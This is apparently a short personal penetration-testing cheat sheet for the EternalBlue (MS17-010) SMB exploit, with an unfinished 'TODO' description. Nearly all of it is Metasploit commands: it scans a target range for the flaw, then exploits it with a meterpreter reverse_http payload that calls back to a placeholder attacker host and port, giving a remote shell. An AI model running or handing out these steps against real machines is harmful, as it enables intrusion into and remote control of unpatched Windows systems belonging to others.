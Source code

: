 # Eternalblue

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue

set rhosts <IP>/<CIDR>

check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

set payload windows/x64/meterpreter/reverse_http

options

set rhosts <target_IP>

set lhost <attacker_IP>

set lport <attacker_PORT>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Remote Services/SMB|Vulnerability Assessment: SMB]]

- [Sploitify: Eternalblue MS17-010](https://sploitify.haxx.it/exploits/2017/MS17-010/)